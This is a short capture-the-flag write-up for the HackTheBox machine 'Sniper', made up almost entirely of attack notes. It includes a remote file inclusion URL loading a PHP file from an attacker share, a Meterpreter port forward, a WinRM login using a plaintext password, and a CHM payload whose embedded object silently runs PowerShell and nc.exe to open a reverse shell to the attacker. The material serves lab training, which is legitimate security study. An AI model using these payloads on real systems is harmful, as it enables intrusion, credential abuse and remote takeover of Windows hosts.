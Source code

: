 ```yaml
---
categories:
- CTF
image:
  path: https://img.youtube.com/vi/MbmPyGFaV9g/0.jpg
layout: post
media_subpath: /assets/posts/2020-03-28-sniper-hackthebox
tags:
- chm
- hackthebox
- rfi
- windows
title: Sniper @ HackTheBox
---
```


Sniper is a 30-point machine on HackTheBox that involves abusing a remote file inclusion and uploading a crafted chm file which is opened automatically by the local administrator.

{% youtube MbmPyGFaV9g %}

## Notes

Remote File Inclusion:

```
http://10.10.10.151/blog/?lang=//<ip>/share/xct.php
```

Meterpreter port forward:

```
portfwd add -l 8000 -p 5985 -r 10.10.10.151 
```

WinRM:

```
set winrm/config/client @{TrustedHosts="*"}
Enable-WSManCredSSP -Role "Client" -DelegateComputer "*"
$user = 'Chris'
$pass = ConvertTo-SecureString -AsPlainText '36mEAhz/B8xQ~2VM' -Force
$cred = New-Object -TypeName System.Management.Automation.PSCredential -ArgumentList $user,$pass
New-PSSession -URI http://localhost:8000/wsman -Credential $cred
Enter-PSSession -id <id>
```

Generate CHM-Payload:

```
Out-CHM -Payload "c:\programdata\nc.exe -e cmd.exe <ip> <port>" -HHCPath "C:\Program Files (x86)\HTML Help Workshop"
```

Payload:

```vb
<OBJECT id=x classid="clsid:adb880a6-d8ff-11cf-9377-00aa003b7a11" width=1 height=1>
<PARAM name="Command" value="ShortCut">
 <PARAM name="Button" value="Bitmap::shortcut">
 <PARAM name="Item1" value=",cmd.exe,/c C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -WindowStyle Hidden -ExecutionPolicy Bypass -NoLogo -NoProfile c:\programdata\nc.exe -e cmd.exe <ip> <port>">
 <PARAM name="Item2" value="273,1,1">
</OBJECT>

<SCRIPT>
x.Click();
</SCRIPT>
```